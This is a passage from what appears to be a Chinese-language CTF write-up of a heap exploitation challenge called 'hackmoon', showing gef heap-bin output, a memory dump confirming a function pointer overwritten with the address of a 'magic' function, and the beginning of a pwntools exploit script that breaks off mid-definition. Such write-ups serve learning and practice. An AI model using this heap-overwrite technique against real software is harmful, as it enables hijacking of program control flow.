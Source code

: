 	[+] Found 0 chunks in unsorted bin.

	─────────────────────────────────────────── Small Bins for arena 'main_arena' ───────────────────────────────────────────

	[+] Found 0 chunks in 0 small non-empty bins.

	─────────────────────────────────────────── Large Bins for arena 'main_arena' ───────────────────────────────────────────

	[+] Found 0 chunks in 0 large non-empty bins.

	gef➤ x/70ag 0x09f6d160

	0x9f6d160: 0x8048986 0x0

	0x9f6d170: 0x0 0x0

	0x9f6d180: 0x0 0x0

	0x9f6d190: 0x0 0x0

	0x9f6d1a0: 0x804865b 0x0

	0x9f6d1b0: 0x9f6d170 0x0

	0x9f6d1c0: 0x0 0x0

覆盖成功，0x9f6d160的内容已经变为magic函数的地址，再运行print(0)后就可以运行到magic函数。

脚本：

	from pwn import *

	p=process('./hackmoon')

	def add(size, content):

		p.recvuntil('Your choice :')

		p.sendline('1')

		p.recvuntil('moon size :')

		p.sendline(str(size))

		p.recvuntil('Content :')

		p.send(content)

	def delete(index):

		p.recvuntil('Your choice :')

		p.sendline('2')

		p.recvuntil('Index :')

		p.sendline(str(index))

		p.recvuntil('Success')

		return

	def print_(index):
